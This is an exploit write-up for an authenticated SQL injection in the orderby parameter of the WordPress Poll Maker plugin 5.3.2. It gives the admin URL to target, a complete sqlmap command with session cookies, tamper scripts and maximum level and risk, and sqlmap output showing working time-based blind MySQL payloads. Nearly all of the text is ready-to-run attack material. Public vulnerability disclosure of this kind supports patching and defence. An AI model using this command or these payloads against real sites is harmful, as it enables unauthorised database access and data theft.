 ### Exploit Title: WordPress Poll Maker Plugin SQL Injection 
### Date: 2024-07-11
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor: https://ays-pro.com/wordpress/poll-maker
### Version 5.3.2

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `Poll Maker`  > `Results` > https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc
     
3. Search for orderby parameter.

## SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc" --cookie="wordpress_logged_in_55e28812cb0bc43705127d62a25df794=admin|1720624086|cQgkhpgoy0ZxhQSupSHRw7bo9mxcwEWyUp0VreNnZBK|d74e12a1cdecafc50c920c18d4711826598780dd360f3a637abcc68a6086f7a3; _wp_travel_engine_session=010869411d3c5e302ccf674d9a49d453||1720689253||1720688893; wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|81237d448295de9d99b8560e6b6d9d8640f81c4dbb629e550e56860775baf0b3; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|d8d2e1da10a83ab054e39b8dfa5787c0dc2d586f364bcb584983b26efb857285; wordpress_test_cookie=WP Cookie check; wp-settings-1=editor=html; wp-settings-time-1=1720687513" --batch --dbms=mysql --threads=10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 

## RESULT

Parameter: orderby (GET)
    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: page=poll-maker-ays-results&orderby=id PROCEDURE ANALYSE(EXTRACTVALUE(3054,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x58655778))))),1)# wcUc&order=desc
    Vector: PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)
---

---
[08:03:59] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:03:59] [INFO] the back-end DBMS is MySQL
[08:03:59] [PAYLOAD] id/**/PrOCEdUrE/**/analySE(exTRActvALuE(6707,CoNcAT(0x5c,(iF((VeRSION()/**/LikE/**/0x254d61726961444225),BenChmaRk(5000000,MD5(0x6e454541)),6707)))),1)#/**/ZrRh
[08:03:59] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:04:01] [DEBUG] used the default behavior, running in batch mode
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Poll-Maker-SQL-Injection/main/11.png">



